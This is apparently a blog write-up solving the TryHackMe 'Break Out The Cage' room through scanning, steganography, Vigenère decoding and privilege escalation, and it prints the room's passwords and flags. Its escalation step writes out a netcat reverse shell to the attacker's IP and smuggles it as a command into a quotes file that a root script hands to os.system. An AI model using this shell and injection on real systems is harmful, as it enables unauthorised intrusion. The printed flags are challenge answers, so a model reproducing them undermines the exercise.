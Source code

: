```yaml
---
title: "Break Out The Cage - TryHackMe"
author: Ludovic COULON
date: 2020-06-18
hero: ./images/hero.jpeg
excerpt: "Writeup for the Break Out The Cage room on TryHackMe"
---
```


[TryHackMe | Break Out The Cage](https://tryhackme.com/room/breakoutthecage1)
Let's find out what his agent is up to....

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.145.194
```

```bash
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.2.228
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDn+KLEDP81/6ceCvdFeDrLFYWSWc6UnOmmpiNeXuyr+GRvE5Eff4DOeTbiEIcHQkkPcz2QXiOLd9SMjCEgAqmZiZE/mv1HJpQfmRLOufOlf9oZ1TIZf7ehKcVqX0W3nuQeC+M2wLBse2lGhovnTSaZKLKRjQCP2yD1EzND/xFA88oFpahvr6vJfyGOTADjc83AJq9n3Gnil4Nd88xNsIKTl01Mm9ikE/3n/XFbwzYa2bYJRVr+lWWRd+EU3sYTY80PQgBiw6ZPT0QCe0lQfmcgCqu4hC+t/kyfmMRlbtjN/yZJ0gCWeVVAV+A4NNgsOqFbXUT+c6ATzYNhBXRojJED
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA3G1rdbZBOf44Cvz2YGtC5WhIHfHQhtShY8miCVHayvHM/9reA8VvLx9jBOa+iClhm/HairgvNV6pYV6Jg6MII=
|   256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFiTPEbVpYmF2d/NDdhVYlXWA5PmTHhtrtlAaTiEuZOj

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Nicholas Cage Stories
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
➜  TryHackMe dirb http://10.10.145.194/ -R

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Jun 15 10:10:41 2020
URL_BASE: http://10.10.145.194/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Interactive Recursion

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.145.194/ ----
==> DIRECTORY: http://10.10.145.194/contracts/
==> DIRECTORY: http://10.10.145.194/html/
==> DIRECTORY: http://10.10.145.194/images/
==> DIRECTORY: http://10.10.145.194/auditions/
+ http://10.10.145.194/index.html (CODE:200|SIZE:2453)
==> DIRECTORY: http://10.10.145.194/scripts/
+ http://10.10.145.194/server-status (CODE:403|SIZE:278)
```

<div className="Image__Medium">
  <img src="https://imgur.com/OszNOAo.png" alt="blog_image" />
</div>

As you can see by the title of the file, this mp3 is corrupted let's see if there is something hidden using stenography.

<div className="Image__Medium">
  <img src="https://imgur.com/1VoGSx0.png" alt="blog_image" />
</div>

Yep ! There is something hidden in this file the "password" is : namelesstwo

<div className="Image__Medium">
  <img src="https://imgur.com/gN4KqtG.png" alt="blog_image" />
</div>
<div className="Image__Medium">
  <img src="https://imgur.com/eVBHL57.png" alt="blog_image" />
</div>

[Vigenère Cipher - Decoder, Encoder, Solver, Translator](https://www.dcode.fr/vigenere-cipher)

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

### #1 What is Weston's password?

```bash
Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

### #2 What's the user flag?

I tried to use the find command to locate all the txt files but nothing came out..

```
weston@national-treasure:~$ find / -type f -name "user.*" 2>/dev/null
```

Let's try something else .. 😢

<div className="Image__Medium">
  <img src="https://imgur.com/B1Bb9kI.png" alt="blog_image" />
</div>

As you can see there this script that we can execute with root permission let's get a reverse shell 🤤

Wait ...

<div className="Image__Medium">
  <img src="https://imgur.com/fe66YHv.png" alt="blog_image" />
</div>

When I was editing the script I noticed something interesting there is a script that write random quotes, let's find the script 🤨

You can also find the random quotes in the motd

<div className="Image__Medium">
  <img src="https://imgur.com/iQWwMqZ.png" alt="blog_image" />
</div>

```
weston@national-treasure:~$ find / -type f -name "rando*" 2>/dev/null
```

Nothing there.. 😟

```
weston@national-treasure:~$ find / -type f -name "*quotes*" 2>/dev/null
```

AH ! I found it! 😅

<div className="Image__Medium">
  <img src="https://imgur.com/tUotgtl.png" alt="blog_image" />
</div>

```python
weston@national-treasure:~$ cat /opt/.dads_scripts/spread_the_quotes.py
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

Let's get a reverse shell

```bash
rm -f /tmp/rev
cat << EOF > /tmp/rev
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.2.228 4444 >/tmp/f
EOF
chmod +x /tmp/rev
printf 'bop; /tmp/rev\n' > /opt/.dads_scripts/.files/.quotes
```

Wait maybe 1 or two minutes to get a shell

<div className="Image__Medium">
  <img src="https://imgur.com/WBwzInV.png" alt="blog_image" />
</div>

```bash
ls
email_backup
Super_Duper_Checklist
cd Super*
/bin/bash: line 30: cd: Super_Duper_Checklist: Not a directory
cat Super*
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
```

### #3 What's the root flag?

Once you are in the cage account go to this repertory

```bash
/home/cage/email_backup
```

And cat \*

<div className="Image__Medium">
  <img src="https://imgur.com/oi1cWOc.png" alt="blog_image" />
</div>

After a while I figured out that the "password" highlighted is encoded using Vigenère encryption

But as you can see you need to provide some key to decode the password I tried "Face" because on the last paragraph the email repeat many times the word so i guess i had some chance 🥴

<div className="Image__Medium">
  <img src="https://imgur.com/junuXVj.png" alt="blog_image" />
</div>

[CyberChef](<https://gchq.github.io/CyberChef/#recipe=Vigen%C3%A8re_Decode('face')&input=aGFpaW5zcHN5YW5pbGVwaA>)

```bash
cageisnotalegend
```

You can also stabilized the shell using the cage's ssh key

<div className="Image__Medium">
  <img src="https://imgur.com/uWyHix4.png" alt="blog_image" />
</div>

Once you stabilized the shell you can just type "su" and type the password that we discover earlier

<div className="Image__Medium">
  <img src="https://imgur.com/ibMOroe.png" alt="blog_image" />
</div>

```bash
THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}
```
